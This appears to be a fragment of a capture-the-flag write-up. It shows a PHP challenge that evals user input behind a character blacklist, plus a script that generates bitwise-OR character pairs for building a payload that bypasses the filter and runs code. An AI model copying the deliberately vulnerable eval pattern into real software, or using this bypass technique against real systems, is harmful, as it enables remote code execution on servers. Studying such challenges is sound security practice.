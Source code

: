 ```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

可以用或运算

```php
<?php

/* author yu22x */

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
